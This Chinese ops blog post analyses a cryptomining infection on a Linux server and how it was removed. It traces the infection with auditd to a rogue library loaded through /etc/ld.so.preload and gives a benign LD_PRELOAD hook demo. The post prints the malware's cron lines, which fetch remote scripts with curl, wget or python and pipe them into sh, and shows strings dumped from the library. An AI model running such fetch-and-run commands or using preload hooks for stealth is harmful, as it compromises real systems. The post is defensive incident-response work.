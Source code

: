 ```yaml
---
layout: post
title: "服务器中挖矿病毒分析及移除"
date: 2021-09-16
comments: false
categories: 运维
---
```


### 1. 现象

定时任务有非法任务，如下

```
[root@iZ23kh0sxhxZ nexhome]# crontab -l
*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
```
而且编辑后又会被恢复

### 2. 排查过程

#### 2.1 找出定时任务文件位置

根据网上资料，寻找到以下几处cron文件位置

```
/var/spool/cron/root
/etc/cron.d/root
/var/spool/cron/crontabs/root
```

发现以下几个文件被不停的修改

#### 2.2 找出修改定时任务的进程

思路：寻找监听文件被修改的方式，大致有3中方式

```
方式1: lsof
方式2: inotify
方式3: audit
```
考虑到系统自带了audit，因此采用audit，相关命令如下：

```
启动服务
service auditd start

添加规则
auditctl -w /var/spool/cron/root -p wra

查看规则
auditctl -l

清除规则
auditctl -D

查看结果
ausearch -f /var/
```
通过以上，可以查看文件被修改的进程，如下是通过ausearch得到的结果，其中pid就是修改该文件的进程id

```
time->Thu Sep 16 16:55:49 2021
type=PATH msg=audit(1631782549.484:7): item=1 name="/var/spool/cron/root" inode=11796544 dev=ca:11 mode=0100644 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL
type=PATH msg=audit(1631782549.484:7): item=0 name="/var/spool/cron/" inode=11796506 dev=ca:11 mode=040700 ouid=0 ogid=0 rdev=00:00 nametype=PARENT
type=CWD msg=audit(1631782549.484:7):  cwd="/etc"
type=SYSCALL msg=audit(1631782549.484:7): arch=c000003e syscall=2 success=yes exit=3 a0=7fcf3c2f393b a1=242 a2=1b6 a3=0 items=2 ppid=2693 pid=3187 auid=501 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts0 ses=5 comm="ausearch" exe="/sbin/ausearch" key=(null)
```

#### 2.3 确认该进程是什么进程

通过ausearch可以得到进程id，但通过ps无法找到该进程，说明这个为临时进程，通过top观察发现这个就是执行auserch自己的进程号，而且在不执行命令时，是不会有人变更该文件；

于是可以初步断定，修改定时任务不是某个常驻进程定时触发的，而是由于bash 命令主动触发的。

#### 2.4 查找具体的命令

怀疑应该是bash被修改了，从其他可执行文件，还是一样结果，怀疑是动态库被修改，于是查看bash依赖的动态库

```
[root@iZ23kh0sxhxZ nexhome]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007ffc5b3be000)
	/usr/local/lib/libevent_core-0.12.so (0x00007fbdb8f8c000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fbdb8d7b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fbdb89e7000)
	/lib64/ld-linux-x86-64.so.2 (0x0000561db6313000)
```
对比了其他正常服务器发现并没有这个libevent_core-0.12.so动态库以来

vim打开/usr/local/lib/libevent_core-0.12.so发现如下一些特殊字符，于是可以断定这个是原因

```
cpu  0 0 3375 498153 97 0 10 0 0 0
cpu0 0 0 1699 249246 71 0 6 0 0 0
intr 0 28 0 0 0 378 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 16 0 4129 0 124 1 0 1251 0 3 0 6879 6680 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
ctxt 543672
btime 1544675938
processes 2774
procs_running 4
procs_blocked 0
softirq 188202 0 129718 1 457 0 0 1 35688 0 22337access__xstatw+/etc/cron.d/root*/15 * * * * root (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/root*/15 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##/var/spool/cron/crontabs/root*/30 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- ||python -c 'import urllib;print(urllib.urlopen("http://").read())')|sh
##racu_schvdsld.so.preloadlibevent_core-0.12.so/proc/stat/proc/net/tcp/proc/net/tcp6fopen64__lxstat__lxstat64openrmdir__xstat64unlinkunlinkatopendirreaddir/proc4f91a57bce./readdir64?????????????(K???H????pI??????????????????????}???0????XO?????????g?????????'??????0????X{???x?????d????????zRx
```

#### 2.5 移除动态库依赖

通过动态库配置文件，发现如下信息

```
[root@iZ23kh0sxhxZ etc]# cat /etc/ld.so.preload
/usr/local/lib/libevent_core-0.12.so
```
于是手动编辑移除，由于原来动态库已经加载，因此这里重新启动系统

#### 2.6 最终确认

服务器重启后，定时任务没有被修改了，可以确定病毒已被清除。同时确认了依赖已经没有libevent相关库依赖。

```
[root@iZ23kh0sxhxZ ~]# ldd /bin/bash
	linux-vdso.so.1 =>  (0x00007fff01944000)
	libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00000032c6800000)
	libdl.so.2 => /lib64/libdl.so.2 (0x00007fefd921b000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fefd8e86000)
	/lib64/ld-linux-x86-64.so.2 (0x00005567870de000)
```


### 3 总结

自此，该病毒已被彻底移除，这里做一些总结，该病毒依附于命令，即你有敲命令，就会导致定时任务被修改，而我们排查又需要通过命令，因此比较难发现，借助了audit来一步步确定，最终找到是由于加载了黑客自己编写的动态库，从而进一步找到源头，并将病毒清理掉。

这里也简单描述下原理，通过/etc/ld.so.preload可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数。因此可以使用预加载实现hook功能。

```
#include <stdio.h>
#include <sys/socket.h>

__attribute__ ((visibility("default"))) int socket(int family, int type, int protocol) {
	printf("detect socket call\n");
	return -1;
}

__attribute__((constructor)) void main() {
	printf("module inject success\n");
}
```

编译成so，并执行

```
gcc hook.c --shared -fPIC -o hook.so
LD_PRELOAD=$PWD/hook.so ping 127.0.0.1
```

输出如下结果

```
module inject success
detect socket call
detect socket call
ping: socket: Success
```
